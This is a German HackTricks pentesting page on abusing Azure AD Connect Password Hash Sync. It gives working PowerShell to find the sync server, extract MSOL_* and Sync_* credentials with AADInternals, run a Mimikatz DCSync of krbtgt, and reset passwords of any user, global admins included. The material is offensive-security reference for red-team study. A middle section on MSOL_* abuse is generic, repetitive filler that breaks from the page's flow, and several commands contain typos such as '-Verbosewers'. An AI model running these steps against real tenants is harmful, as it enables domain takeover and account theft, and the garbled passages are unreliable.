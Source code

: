 # Az - PHS - Password Hash Sync

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Grundlegende Informationen

[Aus den Dokumenten:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Password hash synchronization** ist eine der Anmeldemethoden, die verwendet werden, um hybride Identität zu erreichen. **Azure AD Connect** synchronisiert einen Hash des Hashes eines Benutzerpassworts von einer lokalen Active Directory-Instanz zu einer cloudbasierten Azure AD-Instanz.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Es ist die **häufigste Methode**, die von Unternehmen verwendet wird, um ein lokales AD mit Azure AD zu synchronisieren.

Alle **Benutzer** und ein **Hash der Passwort-Hashes** werden vom lokalen AD zu Azure AD synchronisiert. Allerdings werden **Klartext-Passwörter** oder die **originalen** **Hashes** nicht an Azure AD gesendet.\
Darüber hinaus werden **integrierte** Sicherheitsgruppen (wie Domain-Admins...) **nicht synchronisiert** zu Azure AD.

Die **Hashes-Synchronisation** erfolgt alle **2 Minuten**. Allerdings sind standardmäßig **Passwortablauf** und **Kontenablauf** **nicht synchronisiert** in Azure AD. Ein Benutzer, dessen **lokales Passwort abgelaufen** ist (nicht geändert), kann weiterhin **auf Azure-Ressourcen zugreifen** mit dem alten Passwort.

Wenn ein lokaler Benutzer auf eine Azure-Ressource zugreifen möchte, erfolgt die **Authentifizierung in Azure AD**.

**PHS** ist erforderlich für Funktionen wie **Identity Protection** und AAD Domain Services.

## Pivoting

Wenn PHS konfiguriert ist, werden einige **privilegierte Konten** automatisch **erstellt**:

* Das Konto **`MSOL_<installationID>`** wird automatisch im lokalen AD erstellt. Dieses Konto erhält eine **Directory Synchronization Accounts**-Rolle (siehe [Dokumentation](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)), was bedeutet, dass es **Replikationsberechtigungen (DCSync) im lokalen AD** hat.
* Ein Konto **`Sync_<name of on-prem ADConnect Server>_installationID`** wird in Azure AD erstellt. Dieses Konto kann **das Passwort JEDES Benutzers** (synchronisiert oder nur Cloud) in Azure AD zurücksetzen.

Passwörter der beiden vorherigen privilegierten Konten werden **in einem SQL-Server** auf dem Server gespeichert, auf dem **Azure AD Connect installiert ist.** Admins können die Passwörter dieser privilegierten Benutzer im Klartext extrahieren.\
Die Datenbank befindet sich in `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Es ist möglich, die Konfiguration aus einer der Tabellen zu extrahieren, wobei eine verschlüsselt ist:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

Die **verschlüsselte Konfiguration** ist mit **DPAPI** verschlüsselt und enthält die **Passwörter des `MSOL_*`**-Benutzers im lokalen AD und das Passwort von **Sync\_\*** in AzureAD. Daher ist es möglich, durch Kompromittierung dieser Konten sowohl im AD als auch in AzureAD zu privesc.

Eine [vollständige Übersicht darüber, wie diese Anmeldeinformationen gespeichert und entschlüsselt werden, findest du in diesem Vortrag](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Den **Azure AD Connect-Server** finden

Wenn der **Server, auf dem Azure AD Connect installiert ist**, der Domäne beigetreten ist (in den Dokumenten empfohlen), ist es möglich, ihn zu finden mit:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Missbrauch von MSOL\_\*

### Überblick

Wenn Azure AD Connect mit Password Hash Sync (PHS) konfiguriert ist, werden die Hashes der Benutzerpasswörter von der lokalen Active Directory-Domäne zu Azure AD synchronisiert. Dies ermöglicht es Benutzern, sich mit denselben Anmeldeinformationen sowohl bei lokalen als auch bei Cloud-Ressourcen anzumelden. Ein Angreifer, der Zugriff auf die Azure AD Connect-Datenbank oder die Synchronisierungsprotokolle erlangt, kann möglicherweise die gehashten Passwörter extrahieren und offline angreifen, um die Klartextpasswörter zu erhalten.

### Angriffsvektor

1. **Zugriff auf die Azure AD Connect-Datenbank**: Ein Angreifer benötigt Zugriff auf die SQL-Datenbank, die von Azure AD Connect verwendet wird. Dies kann durch Ausnutzen von Schwachstellen in der SQL-Server-Instanz oder durch Kompromittierung eines Kontos mit ausreichenden Berechtigungen erreicht werden.
2. **Extraktion der gehashten Passwörter**: Sobald der Angreifer Zugriff auf die Datenbank hat, kann er die gehashten Passwörter extrahieren. Diese Hashes können dann offline angegriffen werden, um die Klartextpasswörter zu erhalten.

### Schutzmaßnahmen

1. **Sichere Konfiguration der SQL-Server-Instanz**: Stellen Sie sicher, dass die SQL-Server-Instanz, die von Azure AD Connect verwendet wird, sicher konfiguriert ist. Dies umfasst die Implementierung von Best Practices für die SQL-Server-Sicherheit, wie z.B. die Minimierung der Angriffsfläche und die Verwendung starker Authentifizierungsmethoden.
2. **Überwachung und Protokollierung**: Implementieren Sie Überwachungs- und Protokollierungsmechanismen, um unbefugten Zugriff auf die Azure AD Connect-Datenbank zu erkennen und darauf zu reagieren.
3. **Regelmäßige Überprüfung der Berechtigungen**: Überprüfen Sie regelmäßig die Berechtigungen der Konten, die Zugriff auf die Azure AD Connect-Datenbank haben, und stellen Sie sicher, dass nur autorisierte Benutzer Zugriff haben.

### Fazit

Der Missbrauch von MSOL\_\* in einer Umgebung, die Azure AD Connect mit Password Hash Sync verwendet, kann schwerwiegende Sicherheitsfolgen haben. Durch die Implementierung geeigneter Schutzmaßnahmen können Organisationen das Risiko eines solchen Angriffs minimieren und die Sicherheit ihrer hybriden Identitätsinfrastruktur verbessern.
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
You can also use [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) to obtain these credentials.
{% endhint %}

### Missbrauch von Sync\_\*

Durch das Kompromittieren des **`Sync_*`**-Kontos ist es möglich, **das Passwort** jedes Benutzers (einschließlich Globaler Administratoren) **zurückzusetzen**.
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Es ist auch möglich, **die Passwörter nur von Cloud-Benutzern zu ändern** (auch wenn das unerwartet ist)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Es ist auch möglich, das Passwort dieses Benutzers zu dumpen.

{% hint style="danger" %}
Eine weitere Option wäre, **privilegierte Berechtigungen einem Service Principal zuzuweisen**, was der **Sync**-Benutzer **Berechtigungen** hat zu tun, und dann **auf diesen Service Principal zuzugreifen** als eine Möglichkeit des Privesc.
{% endhint %}

### Seamless SSO

Es ist möglich, Seamless SSO mit PHS zu verwenden, das anfällig für andere Missbräuche ist. Überprüfen Sie es in:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Referenzen

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Lernen & üben AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen & üben GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichen.

</details>
{% endhint %}

